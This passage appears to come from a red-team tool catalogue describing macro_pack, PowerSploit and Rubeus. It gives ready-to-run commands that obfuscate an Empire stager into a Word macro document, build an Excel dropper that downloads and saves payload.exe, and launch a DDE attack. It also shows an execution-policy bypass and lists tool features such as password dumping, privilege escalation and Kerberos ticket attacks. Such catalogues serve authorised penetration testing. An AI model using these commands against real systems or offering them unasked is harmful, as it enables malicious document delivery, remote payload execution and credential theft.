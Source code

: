 # Obfuscate Empire stager VBA file and generate a MS Word document:
macro_pack.exe -f empire.vba -o -G myDoc.docm

# Generate an MS Excel file containing an obfuscated dropper (download payload.exe and store as dropped.exe)
echo "https://myurl.url/payload.exe" "dropped.exe" |  macro_pack.exe -o -t DROPPER -G "drop.xlsm" 

# Execute calc.exe via Dynamic Data Exchange (DDE) attack
echo calc.exe | macro_pack.exe --dde -G calc.xslx
image

🔙PowerSploit
A collection of PowerShell scripts and modules that can be used to achieve a variety of red teaming objectives.

Some of the features of PowerSploit:

Dump password hashes and extract clear-text passwords from memory
Escalate privileges and bypass security controls
Execute arbitrary PowerShell code and bypass execution restrictions
Perform network reconnaissance and discovery
Generate payloads and execute exploits
Install: 1. Save to PowerShell modules folder

First you will need to download the PowerSploit Folder and save it to your PowerShell modules folder.

Your PowerShell modules folder path can be found with the following command:

$Env:PSModulePath
Install: 2. Install PowerSploit as a PowerShell module

You will then need to install the PowerSploit module (use the name of the downloaded folder).

Note: Your PowerShell execution policy might block you, to fix this run the following command.

powershell.exe -ep bypass
Now you can install the PowerSploit module.

Import-Module PowerSploit
Usage:

Get-Command -Module PowerSploit
image

🔙Rubeus
A tool that can be used to perform various actions related to Microsoft Active Directory (AD) environments, such as dumping password hashes, creating/deleting users, and modifying user properties.

Some of the features of Rubeus:

Kerberoasting
Golden ticket attacks
Silver ticket attacks
Install: (Download)
